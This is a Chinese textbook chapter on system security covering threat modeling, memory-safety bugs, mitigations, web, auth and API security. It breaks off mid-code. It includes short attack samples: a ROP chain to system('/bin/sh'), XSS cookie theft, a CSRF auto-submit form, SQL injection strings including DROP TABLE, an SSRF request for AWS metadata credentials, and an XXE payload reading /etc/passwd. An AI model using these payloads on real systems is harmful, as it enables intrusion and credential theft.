# 第34章 系统安全

## 章节定位

系统安全是保护计算机系统免受攻击、确保数据和资源安全的综合性实践。在当今网络威胁日益复杂的环境下，系统安全已从"锦上添花"演变为软件工程的**底线要求**——一个存在安全漏洞的系统，无论功能多完善，都可能在一夜之间毁于一旦。

本章从威胁建模、漏洞分析、防御机制、Web安全、认证授权、API安全、网络安全、CI/CD安全、操作系统安全、容器安全、零信任架构、安全开发生命周期、事件响应、安全自动化等多个维度，系统性地介绍系统安全的核心知识和工程实践。

**核心理念：安全不是功能，而是属性。** 它渗透在系统的每一层——从网络传输到代码逻辑，从容器运行时到CI/CD流水线。真正的安全来自纵深防御（Defense in Depth），即多层独立的防御机制叠加，任何单一层被突破都不至于导致全面沦陷。



## 核心主题

**安全威胁模型**：STRIDE（Spoofing/Tampering/Repudiation/Information Disclosure/Denial of Service/Elevation of Privilege）模型用于系统性识别安全威胁，DREAD模型用于风险评估，攻击面分析帮助识别系统的暴露点。威胁建模不是一次性活动，而是伴随系统演进的持续过程。

**内存安全漏洞**：缓冲区溢出（栈溢出/堆溢出）是最经典的安全漏洞类型。Return-Oriented Programming（ROP）是现代利用技术，格式化字符串漏洞、Use-After-Free、整数溢出等漏洞类型也需要深入理解。内存安全问题约占所有安全漏洞的70%，这也是Rust等内存安全语言兴起的根本原因。

**防御机制**：ASLR（地址空间布局随机化）、DEP/NX（不可执行栈）、Stack Canary、CFI（控制流完整性）、Shadow Stack等防御技术，形成了多层次的安全防护体系。每一层防御都有其绕过方式，因此必须组合使用。

**Web安全**：XSS（跨站脚本）、CSRF（跨站请求伪造）、SQL注入、SSRF（服务器端请求伪造）、XXE（XML外部实体注入）等Web攻击类型及其防御方法。OWASP Top 10是Web应用安全的关键风险清单。

**API安全**：API已成为现代应用的核心接口，针对API的攻击（如BOLA/IDOR、API密钥泄露、速率限制绕过、GraphQL注入等）已成为OWASP API Security Top 10的重要内容。

**认证与授权**：OAuth 2.0授权框架、JWT（JSON Web Token）、RBAC（基于角色的访问控制）、ABAC（基于属性的访问控制）等认证授权机制。零信任架构下的身份验证是现代安全的基石。

**网络安全**：中间人攻击、DNS劫持、ARP欺骗、DDoS攻击、TLS/SSL配置等网络攻击类型及其防御策略。

**CI/CD与供应链安全**：构建流水线的安全防护、软件物料清单（SBOM）、代码签名、依赖审计等，是防止SolarWinds式供应链攻击的关键。

**操作系统与容器安全**：SELinux/AppArmor强制访问控制、seccomp系统调用过滤、Linux Capabilities细粒度权限、容器的Namespace隔离和Cgroup限制等。

**零信任架构**：不信任任何网络位置，持续验证每一次访问请求。零信任不是单一产品，而是一套安全架构理念。

**安全开发生命周期**：SDL（Security Development Lifecycle）将安全融入软件开发的各个阶段，DevSecOps将安全自动化嵌入CI/CD流水线。

**事件响应**：安全事件不可避免，关键在于快速检测、有效遏制、彻底根除和及时恢复。

## 学习目标

1. 掌握安全威胁建模方法（STRIDE、DREAD、攻击面分析）
2. 理解常见安全漏洞的原理和利用方式（内存安全、Web安全、API安全）
3. 了解现代防御机制的工作原理和组合策略
4. 具备安全编码和安全审计的基本能力
5. 理解容器和操作系统层面的安全技术
6. 掌握零信任架构的核心原则和实施路径
7. 了解CI/CD流水线安全和软件供应链安全
8. 能够制定安全事件响应计划

## 与其他章节的关系

本章与第33章（密码学）在安全技术上紧密相关——密码学是安全的数学基础，本章则聚焦于如何在工程实践中运用这些技术。与第19章（API设计）中的安全设计、第26章（容器化与编排）中的容器安全、第13章（系统编程）中的内存安全等章节有直接联系。

## 本章文件导航

| 文件 | 内容 | 建议阅读时间 |
|------|------|-------------|
| 01-理论基础.md | 威胁模型、漏洞分析、防御机制、Web安全、API安全、认证授权、网络安全、CI/CD安全、零信任、OS安全、容器安全、SDL、事件响应 | 120分钟 |
| 02-核心技巧.md | 安全编码实践、安全配置、代码审计、密钥管理、日志与监控、安全自动化 | 50分钟 |
| 03-实战案例.md | Log4Shell、Equifax泄露、SolarWinds供应链攻击、SSRF攻击AWS、容器逃逸、CI/CD攻击 | 40分钟 |
| 04-常见误区.md | 安全设计中的常见错误与纠正 | 15分钟 |
| 05-练习方法.md | CTF挑战、安全实验、代码审计 | 20分钟 |
| 06-本章小结.md | 关键要点回顾与速查表 | 5分钟 |

***

*软件工程核心知识体系 · 第34章*

***

# 系统安全：理论基础

## 34.1 安全威胁模型

### 34.1.1 STRIDE模型

STRIDE是微软开发的威胁建模框架，用于系统性地识别安全威胁。其核心思想是：**每种威胁类型对应一种安全属性的违反**，通过逐一检查可以避免遗漏。

| 威胁类型 | 英文 | 安全属性 | 攻击示例 | 真实案例 |
|----------|------|----------|----------|----------|
| 仿冒 | Spoofing | 认证性 | 冒充合法用户登录 | 钓鱼邮件伪造CEO身份 |
| 篡改 | Tampering | 完整性 | 修改传输中的数据 | 中间人修改银行转账金额 |
| 抵赖 | Repudiation | 不可否认性 | 否认执行过的操作 | 用户否认下单要求退款 |
| 信息泄露 | Information Disclosure | 机密性 | 数据库泄露 | Equifax泄露1.43亿用户数据 |
| 拒绝服务 | Denial of Service | 可用性 | DDoS攻击 | Mirai僵尸网络攻击Dyn DNS |
| 权限提升 | Elevation of Privilege | 授权 | 普通用户获取管理员权限 | Log4Shell远程代码执行 |

**威胁建模流程**（使用数据流图DFD）：

1. **绘制数据流图**：识别四类元素——外部实体（External Entity）、进程（Process）、数据存储（Data Store）、数据流（Data Flow），以及它们之间的信任边界（Trust Boundary）
2. **对每个元素应用STRIDE分析**：逐一检查每种威胁类型是否适用
3. **评估威胁的严重程度**：使用DREAD评分或CVSS评分
4. **确定缓解措施**：针对每个高风险威胁设计防御方案
5. **验证缓解措施的有效性**：通过安全测试确认措施生效



**STRIDE-per-Element 映射**：不同元素面临的威胁类型不同。

| 元素类型 | 主要威胁 |
|----------|----------|
| 外部实体 | 仿冒、信息泄露、拒绝服务 |
| 进程 | 仿冒、篡改、抵赖、信息泄露、拒绝服务、权限提升 |
| 数据存储 | 篡改、信息泄露、拒绝服务 |
| 数据流 | 篡改、信息泄露、拒绝服务 |

### 34.1.2 DREAD风险评估

DREAD用于量化威胁的风险等级，帮助团队决定修复优先级：

| 因子 | 英文 | 评分标准（1-5） |
|------|------|----------------|
| 损害程度 | Damage | 1=不便，3=敏感数据泄露，5=完全控制/资金损失 |
| 可复现性 | Reproducibility | 1=极难复现，3=需要特定条件，5=总是可复现 |
| 可利用性 | Exploitability | 1=需要高级技能+多步攻击，3=需要编程知识，5=脚本小子可利用 |
| 受影响用户 | Affected Users | 1=少数内部用户，3=部分外部用户，5=全部用户 |
| 可发现性 | Discoverability | 1=需要内网访问，3=需要少量研究，5=公开的漏洞扫描即可发现 |

**风险分数 = (D + R + E + A + D) / 5**

| 分数区间 | 风险等级 | 处理策略 |
|----------|----------|----------|
| 4.0-5.0 | 严重 | 立即修复，阻断发布 |
| 3.0-3.9 | 高 | 当前迭代修复 |
| 2.0-2.9 | 中 | 下个迭代修复 |
| 1.0-1.9 | 低 | 排入 backlog，视情况修复 |

**DREAD的局限性**：主观性强、难以跨团队一致使用。工业界更常用CVSS（Common Vulnerability Scoring System），它是标准化的漏洞评分框架，有成熟的计算器和版本管理。对于内部威胁建模，DREAD足够；对外部漏洞评估，建议使用CVSS v3.1。

### 34.1.3 攻击面分析

攻击面（Attack Surface）是系统所有可被攻击者访问的入口点。攻击面越大，被攻击的概率越高。

- **网络攻击面**：开放端口、API端点、协议实现、TLS配置、DNS记录
- **软件攻击面**：输入字段、文件解析、第三方库、配置文件、调试接口
- **人为攻击面**：社会工程、钓鱼、内部威胁、弱密码
- **物理攻击面**：物理访问、硬件接口、USB设备、侧信道
- **供应链攻击面**：第三方依赖、CI/CD工具、容器基础镜像、开源组件

**攻击面减少策略**：



**攻击面量化**：使用工具自动发现攻击面，如 Microsoft Threat Modeling Tool、OWASP Attack Surface Analyzer、网络扫描工具 Nmap、目录枚举工具 Gobuster。

***

## 34.2 内存安全漏洞

### 34.2.1 缓冲区溢出

缓冲区溢出是最经典的安全漏洞，在CVE历史中占比极高。分为栈溢出和堆溢出两大类。

**栈溢出原理**：

```c
void vulnerable_function(char *input) {
    char buffer[64];
    strcpy(buffer, input);  // 未检查输入长度！
}
```

当`input`超过64字节时，多余的数据会溢出buffer边界，覆盖栈上的返回地址。攻击者精心构造输入，将返回地址覆盖为shellcode的地址，即可控制程序执行流。

**栈帧结构详解**：

高地址
┌─────────────────┐
│   参数n         │
├─────────────────┤
│   ...           │
├─────────────────┤
│   参数1         │
├─────────────────┤
│   返回地址       │ ← 被覆盖的目标（控制EIP/RIP）
├─────────────────┤
│   保存的EBP/RBP │ ← 帧指针
├─────────────────┤
│   Canary        │ ← 安全检测值（见34.3.3）
├─────────────────┤
│   局部变量       │
├─────────────────┤
│   buffer[63]    │
│   ...           │
│   buffer[0]     │ ← 溢出起点
└─────────────────┘
低地址

**攻击步骤**：
1. 填充buffer（64字节）
2. 覆盖EBP（4/8字节）
3. 覆盖返回地址为shellcode地址或ROP gadget地址
4. 函数返回时跳转到攻击者控制的代码

**堆溢出**：溢出发生在堆内存中，可覆盖堆管理元数据（如malloc的chunk header），实现任意写入。堆溢出比栈溢出更复杂，因为堆的内存布局不像栈那样规律。经典技术包括unlink攻击、house of系列利用等。

### 34.2.2 Return-Oriented Programming（ROP）

由于DEP/NX等防御机制，直接执行栈上的shellcode已不可行。ROP技术通过复用程序中已有的代码片段（gadgets）绕过这一限制。

**ROP原理**：

程序中已有的代码片段：
Gadget 1: pop rdi; ret    // 控制第一个参数
Gadget 2: pop rsi; ret    // 控制第二个参数
Gadget 3: call system     // 调用系统函数

攻击者构造ROP链，通过控制返回地址序列，将已有代码片段串联起来执行任意操作。每个gadget以`ret`指令结尾，ret指令从栈上弹出下一个地址并跳转，从而链接多个gadget。

**ROP链构造示例**：

栈布局：
[addr of Gadget 1] → [value for rdi] → [addr of Gadget 2] → [value for rsi] → [addr of system]

执行流程：
Gadget 1: pop rdi; ret  → rdi = "/bin/sh"
Gadget 2: pop rsi; ret  → rsi = 0
Gadget 3: call system   → system("/bin/sh")

**ROP的防御**：CFI（控制流完整性）、Shadow Stack、代码随机化（增加gadget寻找难度）。

### 34.2.3 格式化字符串漏洞

```c
void vulnerable(char *user_input) {
    printf(user_input);  // ❌ 危险！应该用 printf("%s", user_input)
}
```

格式化字符串漏洞允许攻击者利用printf系列函数的特性：

- `%x`：读取栈上的数据（信息泄露，可用于绕过ASLR）
- `%n`：向任意地址写入已输出的字符数（任意写入，可覆盖GOT表）
- `%p`：泄露指针地址
- `%{offset}$x`：直接访问栈上指定偏移的数据

**修复方法**：永远使用格式化字符串作为printf的第一个参数，用户输入作为后续参数。

### 34.2.4 Use-After-Free（UAF）

```c
char *ptr = malloc(100);
free(ptr);
// ... 其他代码分配了同样大小的内存，数据被覆盖 ...
strcpy(ptr, "data");  // ❌ Use After Free！ptr指向的内存已被释放
```

UAF漏洞利用堆分配器的特性：释放后的内存可能被重新分配给其他对象。如果攻击者能控制重新分配的对象内容，就能通过悬垂指针（dangling pointer）劫持程序行为。

UAF是浏览器引擎中最高频的漏洞类型（Chrome V8、Firefox SpiderMonkey都曾有大量UAF漏洞），也是内核漏洞的常见类型。

### 34.2.5 整数溢出

```c
void process(int len) {
    // len可能是负数或极大值
    char *buf = malloc(len + 1);  // len=0xFFFFFFFF时，len+1=0（溢出为0）
    read(fd, buf, len);           // ❌ 缓冲区溢出！buf大小为0
}
```

整数溢出通常作为其他漏洞的触发条件。当整数运算结果超出类型范围时，会发生回绕（wrap-around），导致分配的缓冲区远小于预期大小。

**防御**：使用安全的整数运算库、检查运算前的边界条件、使用更大的数据类型。

***

## 34.3 内存安全防御机制

### 34.3.1 ASLR（地址空间布局随机化）

ASLR随机化进程的内存布局，使攻击者无法预测目标代码/数据的地址。每次程序运行时，栈、堆、共享库、可执行文件的加载地址都不同。

- 栈基址随机化
- 堆基址随机化
- 共享库加载地址随机化
- PIE（Position Independent Executable，位置无关可执行文件）：使可执行文件本身也能被随机化加载

```bash
# 检查二进制文件是否启用PIE
readelf -h binary | grep Type
# Type: DYN (Position-Independent Executable) 表示启用了PIE

# 检查系统的ASLR级别
cat /proc/sys/kernel/randomize_va_space
# 0=关闭, 1=部分随机化, 2=完全随机化（推荐）
```

**ASLR的绕过技术**：
- **信息泄露**：通过其他漏洞泄露地址，再计算偏移
- **部分地址覆盖**：低12位（页内偏移）是固定的，可逐字节爆破
- **侧信道攻击**：通过缓存时间差异推断地址
- **内存映射泄露**：`/proc/pid/maps`在特定条件下可读

### 34.3.2 DEP/NX（数据执行保护）

DEP（Data Execution Prevention）标记数据区域（栈、堆）为不可执行，防止直接执行注入的shellcode。在Linux中称为NX bit（No-Execute），在Windows中称为DEP。

```bash
# 检查二进制文件的DEP支持
readelf -l binary | grep GNU_STACK
# GNU_STACK应显示为RW（非RX）
# RW- = 已启用NX（不可执行）
# RWE = 未启用NX（危险！）
```

### 34.3.3 Stack Canary

Stack Canary在返回地址前插入随机值（canary），函数返回前检查canary是否被修改。如果栈溢出覆盖了返回地址，必然也会覆盖canary，从而被检测到。

┌─────────────────┐
│   返回地址       │
├─────────────────┤
│   Canary        │ ← 随机值（如0xa3f5b2c1），函数返回前校验
├─────────────────┤
│   buffer        │
└─────────────────┘

```bash
# 启用Stack Canary（GCC默认已启用-fstack-protector）
gcc -fstack-protector-all -o program program.c    # 保护所有函数
gcc -fstack-protector-strong -o program program.c # 保护含局部数组的函数（推荐）
```

**Stack Canary的绕过技术**：
- 泄露canary值（通过格式化字符串漏洞或信息泄露）
- 覆盖canary之前的数据（不触发检查）
- 从其他入口绕过（不触发含canary的函数）

### 34.3.4 CFI（控制流完整性）

CFI确保程序执行流只能沿着合法路径进行，是防御ROP攻击的关键技术。

- **前向CFI（Forward-edge）**：保护间接调用目标——虚函数表调用、函数指针调用只能跳转到合法入口点
- **后向CFI（Backward-edge）**：保护返回地址——通过Shadow Stack硬件机制，函数返回时对比Shadow Stack上的地址与栈上的返回地址

**实现方案**：

| 方案 | 平台 | 原理 |
|------|------|------|
| Clang CFI | x86/ARM | 编译器插桩，检查间接调用目标 |
| Intel CET (Shadow Stack) | Intel CPU | 硬件维护独立的返回地址栈 |
| ARM BTI+PAC | ARM v8.5+ | Branch Target Identification + Pointer Authentication |
| GCC -fcf-protection | x86 | 启用Intel CET支持 |

### 34.3.5 现代防御组合

现代系统采用多层防御组合，任何单一层都有被绕过的可能，但组合起来极大增加了攻击成本：



***

## 34.4 Web安全

### 34.4.1 XSS（跨站脚本攻击）

XSS将恶意脚本注入到网页中，在其他用户的浏览器上执行。XSS是Web安全中最常见的漏洞之一，每年都在OWASP Top 10中占据重要位置。

**反射型XSS**：恶意脚本在URL参数中，服务器将其"反射"回页面：

攻击URL: https://example.com/search?q=<script>steal(document.cookie)</script>

**存储型XSS**：恶意脚本存储在数据库中，所有访问该页面的用户都会执行。这是最危险的XSS类型，影响范围最广。

**DOM型XSS**：漏洞完全在客户端，恶意数据不经过服务器直接被前端脚本处理：

```javascript
// ❌ 危险：直接将URL参数插入DOM
document.getElementById('output').innerHTML = location.hash.substring(1);
```

**防御措施**：

```python
# 1. 输出编码（最重要）
from markupsafe import escape
safe_output = escape(user_input)

# 2. CSP头（Content Security Policy）
Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-random123'

# 3. HttpOnly + Secure Cookie
Set-Cookie: session=abc; HttpOnly; Secure; SameSite=Strict

# 4. 前端框架的自动转义（React的JSX、Vue的{{}}默认转义）
```

### 34.4.2 CSRF（跨站请求伪造）

CSRF利用用户的已认证状态，诱导用户在不知情的情况下执行非预期操作。攻击者只需要让用户访问恶意页面，浏览器会自动携带Cookie发送请求。

```html
<!-- 恶意网站上的隐藏表单 -->
<form action="https://bank.com/transfer" method="POST">
    <input name="to" value="attacker">
    <input name="amount" value="10000">
</form>
<script>document.forms[0].submit()</script>
```

**防御措施**：
- **CSRF Token**：每次请求包含随机token，服务端验证（最可靠）
- **SameSite Cookie**：`SameSite=Strict`或`SameSite=Lax`限制跨站请求携带Cookie
- **验证Origin/Referer头**：检查请求来源是否为本站
- **双重提交Cookie**：将token同时放在Cookie和请求体中对比

### 34.4.3 SQL注入

SQL注入通过在输入中嵌入SQL代码，操纵数据库查询逻辑。

```python
# ❌ 危险：字符串拼接
query = f"SELECT * FROM users WHERE username = '{username}'"
# 攻击者输入: ' OR '1'='1' --
# 变成: SELECT * FROM users WHERE username = '' OR '1'='1' --'

# ✅ 安全：参数化查询
cursor.execute("SELECT * FROM users WHERE username = %s", (username,))

# ✅ 安全：ORM方式（SQLAlchemy）
user = User.query.filter_by(username=username).first()
```

**SQL注入类型**：
- **联合查询注入**：`UNION SELECT`获取其他表数据
- **布尔盲注**：通过返回差异逐位推断数据
- **时间盲注**：`IF(SUBSTRING(...), SLEEP(5), 0)`通过延迟推断
- **堆叠查询**：`; DROP TABLE users--`执行多条SQL语句
- **二次注入**：存储的数据在后续查询中被利用

### 34.4.4 SSRF（服务器端请求伪造）

SSRF利用服务器发起请求，让服务器充当代理访问内部资源。在云环境中尤其危险，因为元数据服务通常不需要认证。

攻击：https://vulnerable.com/fetch?url=http://169.254.169.254/latest/meta-data/
目标：AWS元数据服务，获取IAM临时凭证

**防御措施**：
- 白名单URL验证（只允许指定域名和协议）
- 禁止访问内网地址段（10.0.0.0/8、172.16.0.0/12、192.168.0.0/16、169.254.0.0/16）
- 使用专用的HTTP客户端库，禁用重定向
- AWS使用IMDSv2（需要PUT请求获取token）

### 34.4.5 XXE（XML外部实体注入）

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<user>&amp;xxe;</user>
```

XXE利用XML解析器的外部实体功能，可以读取本地文件、发起SSRF攻击、甚至执行远程代码。

**防御**：禁用外部实体解析。

```python
# Python: 禁用外部实体
from defusedxml import ElementTree
tree = ElementTree.parse('input.xml')

# Java: 禁用外部实体
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
```

***

## 34.5 认证与授权

### 34.5.1 OAuth 2.0

OAuth 2.0是授权框架，允许第三方应用在用户授权下访问资源，而无需获取用户密码。



**授权码流程（最安全）**：
1. 客户端重定向用户到授权服务器
2. 用户登录并同意授权
3. 授权服务器返回授权码（短时效、一次性使用）
4. 客户端后端用授权码换取访问令牌（不暴露给前端）
5. 使用访问令牌访问资源

**OAuth 2.0安全要点**：
- 使用授权码流程（避免隐式流程，隐式流程已不推荐）
- 验证state参数防CSRF
- PKCE（Proof Key for Code Exchange）用于公共客户端
- 使用Refresh Token轮换访问令牌
- 限制Token的作用域（scope）

### 34.5.2 JWT（JSON Web Token）

JWT是一种自包含的Token格式，结构为`Header.Payload.Signature`：

```json
// Header
{"alg": "EdDSA", "typ": "JWT"}

// Payload
{
  "sub": "user123",
  "iss": "auth.example.com",
  "exp": 1700000000,
  "iat": 1699996400,
  "roles": ["admin"]
}

// Signature
EdDSA(header + "." + payload, private_key)
```

**JWT安全要点**：
- **验证签名算法**：防止算法混淆攻击（alg=none攻击、RSA→HMAC混淆）
- **检查过期时间**：exp字段必须验证
- **验证issuer和audience**：防止Token被其他服务误用
- **使用EdDSA或ES256**：避免RS256的密钥混淆风险
- **不要在JWT中存储敏感信息**：Payload是Base64编码，不是加密
- **使用短过期时间 + Refresh Token机制**
- **JWKS端点使用HTTPS**：防止公钥被替换

**JWT vs Session对比**：

| 特性 | JWT | Session |
|------|-----|---------|
| 存储位置 | 客户端（Cookie/Header） | 服务端（Redis/DB） |
| 无状态 | ✅ 是 | ❌ 需要服务端存储 |
| 吊销困难 | ⚠️ 需要黑名单机制 | ✅ 删除session即可 |
| 跨域支持 | ✅ 天然支持 | ❌ 受Cookie域限制 |
| 微服务友好 | ✅ 签名验证即可 | ❌ 需要session共享 |
| 数据泄露风险 | ⚠️ Payload可解码 | ✅ 客户端无数据 |

### 34.5.3 RBAC与ABAC

**RBAC（基于角色的访问控制）**：

```python
# 用户-角色-权限映射
user_roles = {"alice": ["admin", "user"], "bob": ["user"]}
role_permissions = {
    "admin": ["read", "write", "delete", "manage_users"],
    "user": ["read"]
}

def check_permission(user: str, action: str) -> bool:
    for role in user_roles.get(user, []):
        if action in role_permissions.get(role, []):
            return True
    return False
```

RBAC适用于权限模型简单的场景：用户→角色→权限的三级映射。

**ABAC（基于属性的访问控制）**：

```python
# 基于属性的策略引擎
policy = {
    "effect": "allow",
    "conditions": {
        "user.department": "engineering",
        "resource.classification": "internal",
        "time.hour": range(9, 18),
        "user.mfa_verified": True
    }
}

def evaluate_policy(user_attrs: dict, resource_attrs: dict, env_attrs: dict) -> bool:
    for condition_key, expected in policy["conditions"].items():
        parts = condition_key.split(".", 1)
        attrs = {"user": user_attrs, "resource": resource_attrs, "env": env_attrs}
        actual = attrs[parts[0]].get(parts[1])
        if actual != expected:
            return False
    return True
```

ABAC适用于复杂场景：基于用户属性（部门、级别）、资源属性（分类级别）、环境属性（时间、地点）的细粒度访问控制。

**RBAC vs ABAC**：

| 特性 | RBAC | ABAC |
|------|------|------|
| 灵活性 | 低（角色固定） | 高（属性组合动态） |
| 管理复杂度 | 低 | 高（策略管理复杂） |
| 适用场景 | 企业内部系统 | 云服务、多租户 |
| 性能 | 快（查表即可） | 较慢（策略评估开销） |

***

## 34.6 API安全

API已成为现代应用的核心接口，OWASP在2023年发布了专门的API Security Top 10。

### 34.6.1 OWASP API Security Top 10（2023）

| 排名 | 风险 | 描述 | 占比 |
|------|------|------|------|
| API1 | BOLA/IDOR | 对象级授权失效，用户可访问其他用户的数据 | 约40% |
| API2 | 身份认证失效 | 弱认证机制、Token管理不当 | 约20% |
| API3 | 对象属性级授权失效 | 返回了不该暴露的字段 | 约15% |
| API4 | 资源消耗不受限 | 缺乏速率限制，可被DoS | 约5% |
| API5 | 功能级别授权失效 | 普通用户访问管理接口 | 约5% |
| API6 | 不受约束的访问敏感业务流 | 自动化攻击（批量注册、刷单） | 约5% |
| API7 | 服务器端请求伪造 | SSRF | 约3% |
| API8 | 安全配置错误 | 默认配置、不必要功能开启 | 约3% |
| API9 | 脆弱过时组件 | 使用有漏洞的库 | 约2% |
| API10 | 日志和监控不足 | 缺乏审计日志和告警 | 约2% |

### 34.6.2 BOLA/IDOR防御

BOLA（Broken Object Level Authorization）是API安全中最常见的漏洞：

```python
# ❌ 危险：直接使用用户传入的ID
@app.get('/api/orders/<order_id>')
def get_order(order_id):
    return Order.query.get(order_id)  # 任何用户都能查看任何订单

# ✅ 安全：基于当前用户过滤
@app.get('/api/orders/<order_id>')
@login_required
def get_order(order_id):
    order = Order.query.filter_by(id=order_id, user_id=current_user.id).first_or_404()
    return order

# ✅ 安全：使用UUID替代自增ID（增加枚举难度）
order_id = str(uuid.uuid4())  # e.g., "550e8400-e29b-41d4-a716-446655440000"
```

### 34.6.3 API速率限制

```python
from functools import wraps
import time

rate_limits = {}

def rate_limit(max_requests: int, window_seconds: int):
